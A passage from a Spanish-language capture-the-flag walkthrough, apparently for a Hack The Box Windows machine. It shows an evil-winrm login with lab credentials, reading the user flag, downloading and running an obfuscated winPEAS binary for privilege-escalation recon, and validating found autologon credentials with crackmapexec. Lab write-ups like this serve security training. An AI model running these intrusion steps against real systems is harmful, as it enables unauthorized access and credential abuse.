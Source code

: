 ### Coneccion con EVIL-WINRM {-}


```bash
evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
whoami
ipconfig
type ../Desktop/user.txt
```

Ya podemos leer la flag.
## Privilege Escalation {-}

### Rootear la maquina {-}

```powershell
cd C:\Users\Administrator
dir
whoami /priv
whoami /all
net user
```

No tenemos ningun privilegio interessante, tenemos que reconocer el systema.

1. Creamos un directorio para trabajar

    ```powershell
    cd C:\Windows\Temp
    mkdir Recon
    cd Recon
    ```

1. En la maquina de atacante no descargamos el WinPeas

    ```bash
    wget https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe
    mv winPEASx64.exe winPEAS.exe
    ```

1. Lo uploadeamos desde la maquina victima y lo lanzamos

    ```powershell
    upload winPEAS.exe
    ./winPEAS.exe


    ```

    Aqui hemos encontrado unas credenciales para un autologon.

1. Validamos el usuario desde la maquina de atacante

    ```bash
    crackmapexec win rm 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
    ```
